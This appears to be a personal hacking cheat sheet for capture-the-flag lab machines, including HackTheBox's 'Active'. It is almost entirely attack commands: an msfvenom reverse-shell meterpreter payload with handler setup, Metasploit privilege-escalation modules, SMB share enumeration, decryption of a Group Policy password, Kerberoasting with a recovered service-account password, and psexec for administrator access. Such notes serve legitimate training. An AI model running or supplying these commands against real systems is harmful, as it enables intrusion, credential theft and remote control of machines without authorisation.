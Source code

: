 
privilege 
run post/multi/recon/local_exploit_suggester
getprivs

others
sessions || sessions 1/2/3 || set sessions 2/1/3
gobuster [mode] -u [target ip] -w [wordlist]



=================================================================================
king of the hill

msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.13.1.218 LPORT=1337 -f exe > shell.exe

Invoke-WebRequest -uri <URL> -outfile <filename>

python3 -m http.server 8008

user multi/handler

set payload windows/meterpreter/reverse_tcp


=================================================================================

Active   

smbclient -L //10.10.10.100 ==  -L to list smb shares
smbclient //10.10.10.100/Replication
smbclient //10.10.10.100/Users

| enume4linux <ip>|
smbmap -H 10.10.10.100 == -H  hosts
smbclient //10.10.10.100/Replication -c 'recurse;ls' == list everything
./smbmap -R Replication -H 10.10.10.100 = list everything 

\active.htb\Policies\{6AC1786C-016F-11D2-945F-00C04fB984F9}\MACHINE\Microsoft\windows NT\SecEdit\>

Alternate: Download everything
recurse on
prompt off
|mls|
mget *

gpp-decrypt edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ == dicrypt the group policy password

impacket-GetADUsers -all active.htb/SVC_TGS  -dc-ip 10.10.10.100

sync time with Kerberos:
sudo apt install ntpdate
sudo ntpdate 10.10.10.100

impacket-GetUserSPNs -dc-ip 10.10.10.100 active.htb/SVC_TGS:GPPstillStandingStrong2k18 -request
 
Get admin access to machine:
impacket-psexec active.htb/Administrator@10.10.10.100
